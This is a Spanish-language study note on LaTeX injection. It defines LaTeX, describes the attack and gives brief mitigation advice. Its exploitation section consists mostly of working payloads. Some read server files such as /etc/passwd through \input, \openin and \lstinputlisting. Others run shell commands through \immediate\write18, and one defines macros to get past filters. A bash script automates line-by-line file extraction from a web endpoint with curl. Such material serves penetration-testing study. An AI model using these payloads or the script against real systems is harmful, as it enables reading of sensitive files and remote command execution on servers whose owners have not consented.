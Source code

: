 -----
- Tags: #ataques #basico #teoria #practica
----
# ¿ Que es **LaTeX** ?

**LaTeX** es un sistema de composición de textos, orientado a la creación de documentos escritos que presenten una alta calidad tipográfica. Esta formado mayoritariamente por órdenes construidas a partir de comandos de **TeX** pero con la ventaja de **poder aumentar las capacidades** de  **LaTeX** utilizando comandos propios de **TeX** .

----
# ¿ Que son las **LaTeX Injections** ? 

Las **inyecciones LaTeX** son un tipo de ataque que se aprovecha de las vulnerabilidades en las aplicaciones web que permiten a los usuarios ingresar **texto formateado** en **LaTeX**. LaTeX es un sistema de composición de textos que se utiliza comúnmente en la escritura académica y científica.

Estos ataques ocurren cuando un atacante **ingresa código LaTeX malicioso** en un campo de entrada de texto que luego se procesa en una aplicación web. El código LaTeX puede ser diseñado para **aprovechar vulnerabilidades** en la aplicación conseguir una [[RCE - (Remote Command Execution)]]. 

Un ejemplo podría ser un atacante qeu aprovecha la capacidad de LaTeX para incluir gráficos y archivos en una aplicación web. Un atacante podría enviar un código LaTeX que incluya un enlace a un archivo malicioso, como un virus o un troyano, que podría infectar el servidor o los sistemas de la red. 

-----
#  Evitar estos ataques 

Para evitar las **inyecciones LaTeX**, las aplicaciones web deben validar y limpiar adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX.

También es importate que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitorees regularmente las actividades de la aplicación para detectar posibles inyecciones. Además, se debe fomentar la educación sobre la seguridad en el use de LaTeX y cómo evitar la introducción de código malicioso.

---
# Explotación 

En la explotación de LaTeX, existen varias inyecciónes las cuales se pueden ver ([Inyecciones de LaTeX](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection), [más inyecciones en otra página](https://salmonsec.com/cheatsheet/latex_injection)). 

## Read file 

`\input{/etc/passwd}` Esto aveces puede entrar en conflicto devido a los caracteres

Por lo que podriamos hacer uso de este input para leer archivos y haciendo uso `\immediate\write18{command}` para hacer algo como lo sig. 

`\immediate\write18{cat /etc/passwd | base64 > output}`
`\input{output}

 Otras inyecciones sirven para leer unicamente arcivos .tex:

`\include{somefile} # load .tex file (somefile.tex)`

Tambien podriamos leer línea por línea:

Para ver la primera línea de un archivo: 

`\newread\file`
`\openin\file=/etc/passwd`
`\read\file to\line`
`\text{\line}`
`\closein\file`

Para ver la segunda: 

`\newread\file`
`\openin\file=/etc/passwd`
`\read\file to\line`
`\read\file to\line`
`\text{\line}`
`\closein\file`

Y así sucesivamente para ver más lineas agregando el `\read\file to\line`

Si bien podriamos intentar leer multiples líneas de LaTeX, hay veces que por determinados carácteres no se logran visualizar, por lo que podriamos tener un error, en ese caso seria más optimo crear un script en bash para lograr esto mismo. 

Ejemplo de script:

```shell
#!/bin/bash 
 
# Global Vars 

declare -r url="http://localhost/ajax.php" # Declaramos una variable unicamente de "lecutar" para evitar ocupar mucho espacio
filename=$1

if [ $filename ]; then
	line="%0A\read\file%20to\line"
  for i in $(seq 1 100);do 

	file_to_download=$(curl -s -X POST $url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$line%0A\text{\line}%0A\closein\file&template=blank" | /usr/bin/grep -i download | /usr/bin/awk 'NF{print $NF}')
  
	if [ $file_to_download ]; then 
	  wget $file_to_download &>/dev/null 
  
	  file_to_convert=$(echo $file_to_download | /usr/bin/tr '/' ' ' | /usr/bin/awk 'NF{print $NF}')
	  /usr/bin/pdftotext $file_to_convert 
  
	  file_to_read=$(echo $file_to_convert | /usr/bin/sed 's/\.pdf/\.txt/')
	  rm $file_to_convert 
	  /usr/bin/cat $file_to_read | /usr/bin/head -n 1
	  rm $file_to_read
	  line+="%0A\read\file%20to\line"
	else 
	  line+="%0A\read\file%20to\line"
	fi
  done 
else 
  echo -e "\n\n\t[!] Usage: $0 /etc/passwd\n\n"
fi 
```

Tambíen podriamos intentar ejecutar comandos 

`\immediate\write18{whoami}`

O ejecutar un comando y leer el output que es guardado en un archivo: 

`\immediate\write18{whoami > output}`
`\newread\file`
`\openin\file=output
`\read\file to\line`
`\read\file to\line`
`\text{\line}`
`\closein\file`

Y para burlar algunas reinstricciones se podria hacer uso de la definición de "variables": 

`\def\first{in}
`\def\second{put}`

----

`\newread\file \openin\file=/etc/passwd \read\file to\line \text{\line} \closein\file $\lstinputlisting{/etc/passwd}$`
